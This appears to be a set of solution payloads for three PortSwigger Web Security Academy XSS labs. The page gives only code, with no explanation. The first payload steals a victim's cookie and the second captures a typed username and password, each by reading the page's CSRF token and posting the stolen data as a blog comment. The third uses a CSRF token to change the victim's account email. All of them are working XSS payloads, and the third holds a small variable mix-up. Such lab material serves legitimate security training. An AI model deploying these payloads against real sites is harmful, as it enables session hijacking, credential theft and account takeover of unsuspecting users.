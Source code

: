 ## PortSwigger XSS Exploitation challenges: stealing cookies using CSRF (https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies)
```html
<script>
var req = new XMLHttpRequest();
req.open('get','/post?postId=10',false);
req.send();
var token = req.responseText.match(/name="csrf" value="(\w+)"/)[1];
fetch('post/comment', {
method: 'POST',
mode: 'no-cors',
dest: 'document',
headers: {
  "Content-Type" : "application/x-www-form-urlencoded",
},
body: "csrf=" + token + "&postId=10&comment=mycookie:"+ document.cookie + "&name=test&email=test%40test.com&website=http%3A%2F%2Ftest.com"
});
</script>
```

## PortSwigger XSS Exploitation challenges: stealing credentials using CSRF (https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords)
```html
<input name=username id=username>
<input type=password name=password onchange="var token = document.getElementsByName('csrf')[0].value;fetch('post/comment', {method: 'POST',mode: 'no-cors',headers: {'Content-Type' : 'application/x-www-form-urlencoded',},body: 'csrf=' + token + '&postId=2&comment='+ username.value + ':' + this.value + '&name=test&email=test%40test.com&website=http%3A%2F%2Ftest.com'});">
```

## PortSwigger XSS Exploitation challenges: performing CSRF to change user email (https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf)
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('GET','post?postId=8',false);
xhr.send();
var token = xhr.responseText.match("csrf\" value=\"(.*)\"")[1];
var xhr2 = new XMLHttpRequest();
xhr.open('POST', 'my-account/change-email', false);
xhr.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhr.send("email=wiener2%40normal-user.net&csrf=" + token);
</script>
```

---
